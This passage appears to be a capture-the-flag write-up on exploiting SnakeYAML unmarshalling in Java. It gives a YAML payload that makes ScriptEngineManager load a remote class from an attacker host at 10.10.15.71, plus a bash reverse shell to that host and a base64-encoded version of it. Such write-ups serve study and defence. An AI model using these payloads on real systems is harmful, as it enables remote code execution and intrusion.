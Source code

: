 `snakeYAML` is a marshaling library in JAVA.

There is a slight [diffrence between Marshaling and serialization](https://stackoverflow.com/questions/770474/what-is-the-difference-between-serialization-and-marshaling)

* Marshaling and serialization are loosely synonymous in the context of remote procedure call, but semantically different as a matter of intent. In particular, marshaling is about getting parameters from here to there, while serialization is about copying structured data to or from a primitive form such as a byte stream.

Here is the full paper of java Unmarshaller exploit [marshalsec.pdf](https://www.github.com/mbechler/marshalsec/blob/master/marshalsec.pdf?raw=true)

SnakeYAML only allows using public constructors and public properties. It does not require corresponding gettermethods.

It has a special feature which allows calling arbitrary constructors with attacker-supplied data. This makes exploiting `ScriptEngine` possible

From the Oracle/OpenJDK standard library. Requires the ability to call arbitrary constructors with provided data. Involved types do not implement `java.io.Serializable`.

1. Construct a `java.net.URLobject` pointing to a remote class path.
2. Construct a `java.net.URLClassLoader` with that URL.
3. Construct a `javax.script.ScriptEngineManager` with that `ClassLoader`.
4. **The constructor call invokes the `ServiceLoader` mechanism for `javax.script.ScriptEngine` Factory on the remote class path, ultimately instantiating an arbitrary remote class implementing that interface.**

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.15.71:8000/"]
  ]]
]
```

![](/assets/img/posts/ophiuchi/engine-request.png)

### java ScriptEngineManager

* [java runtime executable tool](http://jackson-t.ca/runtime-exec-payloads.html)
* [ScriptEngine interface](https://docs.oracle.com/javase/7/docs/api/javax/script/ScriptEngine.html)
* [ScriptEngineManager payload](https://github.com/artsploit/yaml-payload)

**Reverse Shell**
```bash
❯ rev_shell="bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1'"
jre="bash -c {echo,$(echo -n $rev_shell | base64)}|{base64,-d}|{bash,-i}"
echo $jre
bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS43MS80MTQxIDA+JjEn}|{base64,-d}|{bash,-i}
```

